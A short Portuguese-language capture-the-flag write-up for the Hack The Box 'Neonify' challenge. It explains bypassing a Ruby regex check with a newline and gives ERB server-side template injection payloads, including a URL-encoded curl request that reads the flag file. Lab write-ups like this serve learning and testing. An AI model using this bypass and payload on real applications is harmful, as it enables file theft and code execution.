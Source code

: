 #ctf 

https://app.hackthebox.com/challenges/neonify

Existe um input que é imprimido na página ao enviar (POST).

Vendo o código da aplicação, só é permitido números (0-9) e letras (a-z). Outra informação importante é que está sendo usado uma template injection (ERB), para fazer testes de **SSTI** primeiro é necessário realizar um bypass desta regex. `/^[0-9a-z ]+$/i`.

```ruby
post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end
```

Este [artigo](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) ajudou a entender como burlar a regex. Ela não lida com uma string com mais de uma linha, então quebrando a linha com `\n` e adicionando um [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby) `<%= 7*7 %>` o nosso input ficou `teste\n<%= 7*7 %>`.

Entretando ao enviar esse input é retornado um erro:
	`Invalid query parameters: invalid %-encoding (teste\n&amp;lt;%= 7*7 %&amp;gt;\n)`
	
Usando url encode em toda string conseguimos o resultado da multiplicação. Para pegar a flag basta enviar este payload `teste\n<%= File.open('/app/flag.txt').read %>` codificado:

```sh
curl -s -X POST "http://94.237.56.248:58630/" -d "neon=teste%0A%3C%25%3D%20File.open%28%27%2Fapp%2Fflag.txt%27%29.read%  
20%25%3E"
```

GG